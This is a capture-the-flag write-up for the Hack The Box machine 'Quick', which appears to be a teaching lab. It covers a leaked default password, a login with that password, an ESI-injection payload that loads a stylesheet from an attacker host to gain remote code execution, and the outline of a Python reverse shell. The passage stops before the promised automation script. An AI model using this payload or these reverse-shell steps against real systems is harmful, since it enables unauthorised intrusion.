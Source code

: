 Navigating the site via curl we eventually find a file, `Connectivity.pdf` under the docs folder.

### Connectivity.pdf

This pdf has some instructions with default credentials

```
How to Connect ?
1. Once router is up and running just navigate to http://172.15.0.4/quick_login.jsp
2. You can use your registered email address and Quick4cc3$$ as password.
3. Login and change your password for WiFi and ticketing system.
4. Don’t forget to ping us on chat whenever there is an issue.
```

## Back to login.php

We have a default password for the ticketing system, and some potential emails. Let's try variations of the emails for the users which have had no issues(see the testimonials), meaning they probably haven't had to access the support portal. Using the potential emails, we find that `elisa@wink.co.uk:Quick4cc3$$` works as a login for the ticketing system.

## Ticketing System

http://quick.htb:9001/home.php

### ticket.php

We can make a ticket with an idea that we can later search. The ticket ID is TKT-####

### search.php

Given a ticket ID we can search with the ticket id as part of the url parameter. Seems to allow all kinds of XSS but can't seem to make any request hit my server.

### esigate

Now that we have the ability to reflect tags, we can take advantage of the vulnerability in esigate(https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/). We need to sign in, run our local server to serve up the
`evil.xsl` file, and submit this payload:

```xml
<esi:include src="http://127.0.0.1:9001/index.php" stylesheet="http://10.10.14.39.com/quick/evil.xsl">
</esi:include>
```

Then we need to make the request to search.php with the appropriate TKT number. This initiates the request to our local server, which serves the `evil.xsl`, which makes the
call to java's exec, giving us RCE. Once we have RCE, we can try netcat but it doesn't seem the `-e` switch works. So lets upload/download a python script for a reverse shell, and then run it. Don't forget to setup the netcat listener, and be running a local server to serve the `evil.xsl` file and the python reverse shell. This script will automate most of the process
